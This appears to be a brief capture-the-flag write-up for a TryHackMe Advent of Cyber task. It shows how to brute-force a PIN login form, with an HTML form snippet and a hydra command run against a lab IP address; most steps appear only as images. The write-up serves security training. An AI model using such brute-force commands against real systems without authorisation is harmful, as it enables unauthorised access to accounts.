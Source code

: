 # Task 9 [Day 3] Brute-forcing: Hydra is Coming to Town
# The Story
![Image](https://tryhackme-images.s3.amazonaws.com/user-uploads/5f04259cf9bf5b57aed2c476/room-content/87f456172b2ef2b072a057d4912dbfdf.svg)

## *Answer Of The Question Below*

#### Using crunch and hydra, find the PIN code to access the control system and unlock the door. What is the flag?
![IMAGE](1.png)
```html
<form method="post" action="login.php" class="grid grid-cols-3 max-w-lg mx-auto bg-thm-900 p-4 font-mono">
  <input type="hidden" name="pin" />
</html>
```
![Image](2.png)

#### Generating the Password List
![Image](3.png)

![Image](4.png)

 
#### Using the Password List
![image](5(1).png)
```bash
hydra -l '' -P 3pass.txt -f -v 10.10.172.65 http-post-form "/login.php:pin=^PASS^:Access denied" -s 8000
```
#### Found Pin:
![image](6.png)


![image](7.png)




